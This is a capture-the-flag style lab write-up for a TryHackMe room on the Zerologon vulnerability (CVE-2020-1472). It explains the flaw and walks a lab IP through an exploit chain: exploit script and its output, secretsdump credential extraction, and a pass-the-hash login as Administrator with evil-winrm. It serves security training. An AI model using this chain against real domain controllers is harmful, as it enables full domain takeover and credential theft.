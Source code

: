 # Room
https://tryhackme.com/room/zer0logon

# Task 1 - intro
* zero logon - zero to domain admin in one minute : CVE-2020-1472
* statistics based attack
* abuses feature in MS-NRPC - Microsoft NetLgon Remote Protocol
* MS-NRPC is an authentication component of AD that handles auth for user and machine accounts
* the attack is on the crypto and the exploitation of a hard coded IV of all zeros
* when an attacker sends a message only containing zeros with an IV of zero, there is a 1 in 256 chance the ciphertext will be zero
* resources
    * https://www.secura.com/pathtoimg.php?id=2055
    * https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/7b9e31d1-670e-4fc5-ad54-9ffff50755f9
    * https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9

# Task 2 - impacket install
* impacket install
    * python3 -m pip install virtualenv
    * python3 -m virtualenv impacketEnv
    * source impacketEnv/bin/activate
    * pip install git+https://github.com/SecureAuthCorp/impacket

# Task 3 - poc
* resources
    * https://github.com/SecuraBV/CVE-2020-1472
    * https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/14b020a8-0bcf-4af5-ab72-cc92bc6b1d81
    * https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9
* poc review
    * https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
    * https://github.com/SecureAuthCorp/impacket/blob/master/impacket/dcerpc/v5/nrpc.py
* modified code
    * https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py

# Task 4 - exploit
* enumerate
    ```
    nmap -A -T4 10.10.5.119
    ```
* attack
    ```
    (impacketEnv) root@ip-10-10-69-223:~# python3 zp.py [name] 10.10.5.119

    _____                   __                         
    / _  / ___ _ __ ___     / /  ___   __ _  ___  _ __  
    \// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \ 
    / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
    /____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                    |___/             
                    Vulnerability Discovered by Tom Tervoort
                                Exploit by Ronnie Bartwitz
    
    Performing authentication attempts...
    Failure to Autheticate at attempt number: 321
    Zero Logon successfully exploited, changing password.    
    ```
* dump secrets
    ```
    secretsdump.py -just-dc -no-pass [name]\$@10.10.5.119
    ```
* pass the hash
    ```
    evil-winrm -u Administrator -H [admin_hash] -i 10.10.5.119
    ```
